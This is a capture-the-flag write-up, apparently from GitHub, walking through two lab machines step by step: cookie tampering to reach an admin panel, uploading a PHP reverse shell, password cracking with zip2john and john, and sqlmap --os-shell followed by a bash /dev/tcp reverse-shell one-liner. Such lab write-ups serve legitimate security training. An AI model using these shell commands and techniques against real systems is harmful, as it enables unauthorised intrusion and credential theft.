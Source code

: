 ![obraz](https://github.com/Anogota/Don-t-forget-to-contemplate/assets/143951834/59839b59-15ea-429e-94e8-63090e1b6e7a)

This what we will do today :)
1. With what kind of tool can intercept web traffic? 
This will be just: proxy

2. What is the path to the directory on the webserver that returns a login page? 
For this kind of enumeration i recomend to use: feroxbuster, but in this lab this doesn't work. I turn on the BurpSuite and also proxy, refresh the page and traffic some packiet, there was /cdn-cgi i insert this in ffuf and i got the /cdn-cgi/login, this is answer for the question.

3. What can be modified in Firefox to get access to the upload page? 
This will be a: cookie 

4. What is the access ID of the admin user? 
Here we need to find the IDOR, i log in as a guest, and there we can see on the navbar, account i go there and in the URL you can see something intresting http://10.129.213.188/cdn-cgi/login/admin.php?content=accounts&id=2 i tryed change this from 2 to 1 and i got the Cookie-user: 34322

![obraz](https://github.com/Anogota/Don-t-forget-to-contemplate/assets/143951834/c8690ed3-953e-4c4b-b63c-8cbb4ba4b17c)

5. On uploading a file, what directory does that file appear in on the server? 
Again i used ffuf to do some recon, to find the directory, after few secend i did it, here's the results:
This will be /uploads

![obraz](https://github.com/Anogota/Don-t-forget-to-contemplate/assets/143951834/06067e2c-e923-4675-9630-ee955d15f16c)

6. What is the file that contains the password that is shared with the robert user? 
We need to step back little bit, the target is upload the reverse-shell, first what i did is turn on the burp and intercept the traffic. Then change the in Cookie=user: 2233 role=guest to, Cookie=user: 34322 role=admin, you will get access as a admin, then cp on your computer the reverse-shell ~by this command: cp /usr/share/webshells/php/php-reverse-shell.php ~

You need to open with nano or vim, and change this paramiter: $ip, on your own ip.

![obraz](https://github.com/Anogota/Don-t-forget-to-contemplate/assets/143951834/0e210008-ffd0-4c87-8d24-74181ad3cdb6)

If u change, let's go upload this RCE :P, but rember to change the Cookie=user:, role= without this u can't upload file on the server. If u did this, you can see the announcement  The file php-reverse-shell.php has been uploaded. 
No go to the /uploads, before that rember to turn on the netcat -lvnp 1234 to get a RCE. Something was wrong, i tryed to go /uploads be only what i can see is Forbidden, then /uploads/php-reverse-shell.php but still nothing, i tryed again upload this RCE and i got this :P
Rember to google better shell python and insert in your shell: python3 -c 'import pty; pty.spawn("/bin/bash")'

![obraz](https://github.com/Anogota/Don-t-forget-to-contemplate/assets/143951834/1b600a43-7e46-43fc-acd8-94412accdd5b)

7. What is the file that contains the password that is shared with the robert user? 
I don't did any recon, i got the RCE and there i foud this, the file that contains the password is db.php
<?php
$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
?>

8. What executible is run with the option "-group bugtracker" to identify all files owned by the bugtracker group? 
The answer is: find

9. Regardless of which user starts running the bugtracker executable, what's user privileges will use to run? 
The answer is: root, you can check this by command ls -la

10. What SUID stands for? 
This we need to google, because i have no idea what can mean this acronym:

![obraz](https://github.com/Anogota/Don-t-forget-to-contemplate/assets/143951834/ec4ca946-f826-44c3-a21f-2a687ab2dac1)

11. What is the name of the executable being called in an insecure manner? 
I analyz the Provide Bug ID: and there only 3, but when i insert 4, i can see this: cat: /root/reports/4: No such file or directory, now we know script read the file only, now we need to figure out how we can use this to get access by root.

12. Submit user flag 
By before this, here's the user.txt ![obraz](https://github.com/Anogota/Don-t-forget-to-contemplate/assets/143951834/ddf8e1d3-2577-40c8-9fa1-bfc4acd060a4)

13. Submit root flag
Here's the way how you can exploit it.

![obraz](https://github.com/Anogota/Don-t-forget-to-contemplate/assets/143951834/20ee9bff-d43a-42bb-92cf-e823d0eb0b7a)

And now u have a access as root.

![obraz](https://github.com/Anogota/Don-t-forget-to-contemplate/assets/143951834/20cf4eda-d02b-4088-a4a5-dc36f5848f65)
![obraz](https://github.com/Anogota/Don-t-forget-to-contemplate/assets/143951834/9b0e178d-9c91-4994-a0c0-7a5bd8620dd6)


The next lab:

![obraz](https://github.com/Anogota/Don-t-forget-to-contemplate/assets/143951834/0cce350a-6377-44b4-9827-26b64dfa8fad)

1. Besides SSH and HTTP, what other service is hosted on this box?
I did a scan
There no many port's only 3, SSH, HTTP, FTP. But you can see, we can log in as Anonymous to FTP.

![obraz](https://github.com/Anogota/Don-t-forget-to-contemplate/assets/143951834/c115a783-7036-4319-b81f-49c523403107)

2. This service can be configured to allow login with any password for specific username. What is that username? 
We can see on the scan, the answer is Anonymous

3. What is the name of the file downloaded over this service?
After when we log in,in to FTP we can see there: backup.zip

4. What script comes with the John The Ripper toolset and generates a hash from a password protected zip archive in a format to allow for cracking attempts? 
First we need to use zip2john tool: zip2john backup.zip > hash.txt, then u need to use john to crack the hash by command, john -w=/usr/share/wordlist/rockyou.txt hash.txt and u will get the password: 741852963, then you need to unzip backup.zip and insert the password you will get 2 files. index.php, style.css 

5. What is the password for the admin user on the website? 
We need to read the code in file index.php, there we can see the password for admin.
But how can see in this code md5($_POST['password']), this is encode in MD5, we need to decode this pasword, i used crackstation and i got the passowrd:

![obraz](https://github.com/Anogota/Don-t-forget-to-contemplate/assets/143951834/fa51c08a-9772-42cf-9d8b-1899faca10be)
![obraz](https://github.com/Anogota/Don-t-forget-to-contemplate/assets/143951834/bb7f8ea2-ef54-4ef6-8834-ba29852738fc)

6.What option can be passed to sqlmap to try to get command execution via the sql injection? 
We need to check the sqlmap -h, there i found the switch to get command execution
```
Operating system access:
    These options can be used to access the back-end database management
    system underlying operating system

    --os-shell          Prompt for an interactive operating system shell
    --os-pwn            Prompt for an OOB shell, Meterpreter or VNC
```

7. What program can the postgres user run as root using sudo? 
First we need to do RCE, insert in your terminal: 
```
sqlmap -u "http://10.129.228.13/dashboard.php?search=any+query" --cookie="PHPSESSID=2feacs4fsqv5ag51igr7nvf7q6" --os-shell
```
This will help us to get a RCE, then turn on the netcat: nc -lvnp 4444
And your sqlmap will a message will appear
Like this:

![obraz](https://github.com/Anogota/Don-t-forget-to-contemplate/assets/143951834/a08961fb-c0c8-4e6f-9c81-aebbb08b41b9)

You need to insert there: bash -c "bash -i >& /dev/tcp/10.10.16.21/4444 0>&1"
But rember change the ip, also in this reverse-shell like in command sqlmap, if you don't change the ip and --cookie u don't get access, you can find your cookie by press right click on your mouse inspect, then go to network there it is.
But when you change everything you can see this:

![obraz](https://github.com/Anogota/Don-t-forget-to-contemplate/assets/143951834/157f16da-4ae7-4301-961c-5fb95cab94e4)
